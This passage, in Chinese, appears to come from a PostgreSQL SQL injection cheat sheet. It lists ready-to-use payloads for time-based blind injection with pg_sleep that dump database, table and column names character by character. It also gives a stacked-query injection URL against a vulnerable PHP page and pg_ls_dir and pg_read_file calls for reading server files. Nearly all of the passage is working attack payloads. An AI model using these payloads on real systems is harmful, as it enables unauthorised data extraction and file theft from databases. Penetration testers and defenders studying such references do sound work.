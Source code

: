 ## PostgreSQL 基于时间

#### 识别基于时间的

```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

#### 数据库转储基于时间

```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

#### 表转储基于时间

```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

#### 列转储基于时间

```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from table_name where column_name='value' limit 1
```

```sql
AND [RANDNUM]=(SELECT [RANDNUM] FROM PG_SLEEP([SLEEPTIME]))
AND [RANDNUM]=(SELECT COUNT(*) FROM GENERATE_SERIES(1,[SLEEPTIME]000000))
```

## PostgreSQL 堆叠查询

使用分号 ";" 添加另一个查询

```sql
http://host/vuln.php?id=injection';create table NotSoSecure (data varchar(200));--
```

## PostgreSQL 文件读取

```sql
select pg_ls_dir('./');
select pg_read_file('PG_VERSION', 0, 200);
```

注意：早期版本的 Postgres 在 `pg_read_file` 或 `pg_ls_dir` 中不接受绝对路径。较新版本（自 [此](https://github.com/postgres/postgres/commit/0fdc8495bff02684142a44ab3bc5b18a8ca1863a) 提交起）允许超级用户或在 `default_role_read_server_files` 组中的用户读取任何文件/文件路径。
